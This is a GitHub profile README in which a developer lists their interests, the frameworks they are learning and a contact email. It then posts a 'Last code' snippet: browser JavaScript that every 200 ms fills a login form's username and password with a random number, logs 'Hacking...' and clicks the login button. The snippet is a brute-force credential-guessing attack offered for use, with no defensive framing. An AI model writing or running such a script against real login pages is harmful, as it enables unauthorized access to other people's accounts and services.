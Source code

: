 - 👋 Hi, I’m @H4YKM
- 👀 I’m interested in programming, motion design, web developing, web design & more
- 🌱 I’m currently learning JavaScript, Vue, React, Angular, Node, Express & more!
- 💞️ I’m looking to collaborate on courses and code
- 📫 How to reach me haykm2006@gmail.com

Last code:

```
const login = document.getElementById('username')
const password = document.getElementById('password')
const button = document.querySelector('.fadeIn.third.shadow')

function generateRandomInteger(min, max) {
    return Math.floor(min + Math.random() * (max + 1 - min))
}

setInterval(() => {
        const number = generateRandomInteger(10000, 50000) // Max number, min number
        login.value = number
        password.value = number

        console.log('Hacking...')
        button.click()
    }, 200) // Change interval
```

<!---
H4YKM/H4YKM is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
